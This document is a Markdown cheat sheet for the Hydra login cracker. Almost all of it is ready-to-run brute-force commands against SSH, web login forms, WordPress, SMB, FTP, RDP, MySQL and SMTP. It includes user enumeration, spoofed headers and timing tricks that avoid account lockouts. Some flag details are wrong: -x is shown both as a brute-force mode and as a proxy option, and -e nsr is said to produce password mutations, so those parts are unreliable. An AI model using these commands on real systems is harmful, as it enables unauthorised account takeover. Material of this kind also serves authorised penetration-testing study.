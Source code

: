 # Hydra Cheat Sheet  
*Fast Network Login Cracker for Brute-Forcing Protocols*  

---

## **1. Core Concepts**  
- **Hydra**: Parallelized login cracker supporting 50+ protocols (SSH, HTTP, SMB, etc.).  
- **Service Module**: Protocol-specific rules for authentication (e.g., `ssh`, `http-post-form`).  
- **Wordlists**: Files like `rockyou.txt` or `SecLists` for usernames/passwords.  
- **Brute-Force**: Testing credential combinations systematically.  

---

## **2. Basic Syntax**  
```bash  
hydra [options] <IP> <service-module> [module-specific-parameters]  
```  

---

## **3. Essential Flags**  
| **Flag**          | **Description**                                      |  
|--------------------|------------------------------------------------------|  
| `-l <user>`       | Single username (e.g., `-l admin`)                   |  
| `-L <file>`       | Username wordlist (e.g., `-L users.txt`)             |  
| `-p <pass>`       | Single password (e.g., `-p Password123`)             |  
| `-P <file>`       | Password wordlist (e.g., `-P passwords.txt`)         |  
| `-s <port>`       | Custom port (e.g., `-s 8080` for non-standard HTTP)  |  
| `-t <threads>`    | Parallel tasks (default: 16; max: 64)                |  
| `-v` / `-V`       | Verbose mode (`-V` for real-time output)             |  
| `-f`              | Stop after first valid login                         |  
| `-e nsr`          | Test `n` (null), `s` (same as user), `r` (reverse)   |  
| `-w <sec>`        | Wait time between attempts (e.g., `-w 5`)            |  
| `-W <sec>`        | Per-host delay (e.g., `-W 2` to avoid lockouts)      |  
| `-R`              | Restore a previous session                           |  
| `-x <min:max:chars>` | Brute-force mode (e.g., `-x 6:8:a1d` for 6-8 chars) |  

---

## **4. Service Modules & Examples**  
*Format*: `<protocol>`: `[module-specific parameters]`  

### **SSH**  
**Module**: `ssh`  
```bash  
hydra -L users.txt -P passwords.txt 10.10.10.10 ssh -s 22 -t 64  
```  
**Notes**:  
- Use `-t` to increase threads for faster cracking.  

---

### **HTTP Form Login**  
**Module**: `http[s]-post-form`  
**Syntax**:  
```  
"/path:POST-data:F=Failure-string:S=Success-string"  
```  
**Example**:  
```bash  
hydra 10.10.10.10 http-post-form \  
"/login.php:user=^USER^&pass=^PASS^:F=Invalid credentials" -L users.txt -P passwords.txt  
```  
**Notes**:  
- Use `:S=` to match success criteria (e.g., `S=302` for redirects).  
- Add headers with `-H "Cookie: session=xyz"`.  

---

### **SMB (Windows Shares)**  
**Module**: `smb`  
```bash  
hydra -L users.txt -P passwords.txt 10.10.10.10 smb -W 3  
```  
**Notes**:  
- Target specific shares: `smb://WORKGROUP\\C$`.  

---

### **FTP**  
**Module**: `ftp`  
```bash  
hydra -L users.txt -P passwords.txt ftp://10.10.10.10 -s 21 -V  
```  
**Anonymous Access**:  
```bash  
hydra -l anonymous -P "" ftp://10.10.10.10  
```  

---

### **MySQL**  
**Module**: `mysql`  
```bash  
hydra -L users.txt -P passwords.txt 10.10.10.10 mysql -t 32  
```  

---

### **RDP (Remote Desktop)**  
**Module**: `rdp`  
```bash  
hydra -L users.txt -P passwords.txt rdp://10.10.10.10 -V  
```  

---

### **SMTP**  
**Module**: `smtp`  
**Brute-force**:  
```bash  
hydra -L users.txt -P passwords.txt smtp://10.10.10.10  
```  
**Verify Emails (VRFY)**:  
```bash  
hydra -L users.txt smtp-vrfy://10.10.10.10  
```  

---

### **WordPress**  
**Module**: `http-form-post` (custom)  
```bash  
hydra -l admin -P rockyou.txt 10.10.10.10 http-form-post \  
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"  
```  

---

## **5. Advanced Techniques**  

### **Custom Headers & Proxies**  
```bash  
hydra -l admin -P passwords.txt 10.10.10.10 http-post-form \  
"/login:user=^USER^&pass=^PASS^:F=error" -H "X-Forwarded-For: 127.0.0.1" -x http://proxy:8080  
```  

### **Password Mutations**  
Test variations like `admin123` or `Admin123`:  
```bash  
hydra -l admin -P passwords.txt -e nsr 10.10.10.10 ssh  
```  

### **Resume Sessions**  
```bash  
hydra -R  
```  

---

## **6. Optimization & Safety**  

### **Avoid Lockouts**  
- Use `-w` and `-W` for delays:  
  ```bash  
  hydra -l admin -P passwords.txt -w 5 -W 2 10.10.10.10 ssh  
  ```  

### **Performance**  
- Increase threads: `-t 64`.  
- Use smaller, targeted wordlists first.  

### **Wordlists**  
```bash  
git clone https://github.com/danielmiessler/SecLists  # Comprehensive wordlists  
```  

---

## **7. Troubleshooting**  

| **Issue**                | **Solution**                                      |  
|--------------------------|---------------------------------------------------|  
| "Too many connections"   | Reduce threads (`-t 16`), add delays (`-w`/`-W`). |  
| "Invalid module"         | Check protocol syntax (e.g., `http-post-form`).   |  
| No results               | Verify failure strings match responses.           |  

---

## **9. References**  
- **Hydra GitHub**: https://github.com/vanhauser-thc/thc-hydra  
- **SecLists**: https://github.com/danielmiessler/SecLists  
